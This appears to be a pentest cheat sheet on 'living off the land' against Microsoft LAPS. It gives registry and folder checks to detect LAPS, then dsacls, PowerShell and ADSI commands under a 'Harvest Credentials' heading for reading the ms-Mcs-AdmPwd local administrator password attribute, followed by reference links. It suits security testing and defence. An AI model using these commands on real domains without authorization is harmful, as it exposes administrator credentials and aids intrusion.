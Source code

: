 # Living off the Land

## 01 - Enumerate

Check the registry entry if LAPS is enabled.

```
C:\> reg.exe query "HKLM\SOFTWARE\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

PS C:\> Get-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft Services\AdmPwd" -Name "AdmPwdEnabled"
```

Check if that folder exists and contains `AdmPwd.dll`.

```
C:\> dir "C:\Program Files\LAPS\CSE"

PS C:\> Get-ChildItem -Path "C:\Program Files\LAPS\CSE"

PS C:\> Get-ChildItem -Path "C:\Program Files\LAPS\CSE\Admpwd.dll"
```

Enumerate native LAPS PowerShell cmdlets if they are installed.

```
PS C:\> Get-Command *AdmPwd*
```

## 02 - Harvest Credentials

### 2.1 - Command Prompt

If RSAT is enabled then look for `ms-MCS-AdmPwd`.

```
C:\> dsacls.exe "OU=Managed Computers - LAPS,DC=<DOMAIN>,DC=<TLD>"
```

### 2.2 - PowerShell

Find the principals that have **ReadProperty** on `ms-Mcs-AdmPwd`.

```
PS C:\> Get-AdmPwdPassword -ComputerName <IP> | Format-List
```

Enable RSAT then look for `ms-MCS-AdmPwd`.

```
PS C:\> Import-Module ActiveDirectory

PS C:\> Get-ADComputer -Identity LAB-WIN7CLONE -Properties *
```

You can use **ADSI (Active Directory Service Interfaces)** to retrieve computer properties if RSAT isn't installed or enabled.

```powershell
PS C:\> $domain = New-Object DirectoryServices.DirectoryEntry("LDAP://OU=Managed Computers - LAPS,DC=<DOMAIN>,DC=<TLD>")
$user = $domain.Get_Children().find('CN=<COMPUTERNAME>')
$user | Format-List *
```

---
## References

### Hacktricks

- [Hacktricks: LAPS](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps)

### ADSecurity

- [ADSecurity: Microsoft Local Administrator Password Solution (LAPS)](https://adsecurity.org/?p=1790)

### Hacking Articles

- [Hacking Articles: Credential Dumping - LAPS](https://www.hackingarticles.in/credential-dumpinglaps/)

### ExploitDB

- [Exploit DB: Abusing LAPS](https://www.exploit-db.com/docs/english/50680-abusing-laps---paper.pdf)

### Akijosberry

- [Akijosberry: Malicious use of Microsoft LAPS](https://akijosberryblog.wordpress.com/2019/01/01/malicious-use-of-microsoft-laps/)